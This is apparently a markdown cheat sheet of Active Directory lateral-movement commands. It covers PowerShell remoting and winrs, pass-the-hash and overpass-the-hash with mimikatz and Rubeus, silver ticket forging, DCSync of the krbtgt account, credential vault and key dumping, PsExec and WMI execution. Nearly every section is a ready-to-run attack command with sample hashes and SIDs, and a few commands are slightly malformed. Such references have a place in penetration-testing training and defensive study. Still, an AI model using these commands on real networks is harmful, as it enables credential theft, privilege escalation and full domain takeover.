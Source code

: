 # Lateral Movement

## Establishing Remote Sessions on Network

Connect to a machine using Powershell Remoting:

```
$sess = New-PSSession -ComputerName test-srv
Enter-PSSession -$sess
```

Connect to a machine using Winrs:

```
winrs -r:test-srv cmd
```

## Pass The Hash

Get a session via mimikatz.exe (of any domain user).

```
mimikatz.exe
privilege::debug
sekurlsa::pth /user:domainadmin /domain:test.com /ntlm:6366243a657a4ea04e406f1abc27f1
```

## Overpass The Hash

Get a session with Domain Privileges (hash of a domain admin is required).

```
C:\AD\test\Rubeus.exe asktgt /user:domainadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## Derivative Local Admin

Find derivative local admin access.

```
. C:\AD\test\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

## Silver Ticket

Execute Silver ticket attack using Mimikatz.

```
mimikatz.exe
privilege::debug
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:test.com /ptt /target:test.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:domainadmin
```

Execute Silver ticket attack using BetterSafetyKatz.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:domainadmin /domain:test.com /sid:S-1-5-21-719815819-3726368948-3917688648 /target:test.corp.com /service:RPCSS /rc4:1be12164a06b817e834eb437dc8f581c /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

## PsExec

Execute a process remotely using PsExec.

```
PsExec64.exe cmd \\test.tech.com
```

## DCSync

Execute DCSync attack via SafetyKatz.exe.

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:test\krbtgt" "exit"
```

Execute DCSync attack via mimikatz.exe.

```
privileges::debug
lsadump::dcsync /user:test\krbtgt
```

## Credentials Vault

Dump credentials vault with SafetyKatz.exe.

```
C:\AD\Tools\SafetyKatz.exe "token::elevate" "vault::cred /patch" "exit"
```

## Dump SAM Hashes

Dump SAM of local machine via mimikatz.exe

```
SafetyKatz.exe "sekurlsa::ekeys" "exit"
```

## WMI

Execute WMI quries.

```
gwmi -class win32_operatingsystem -ComputerName test-dc
```
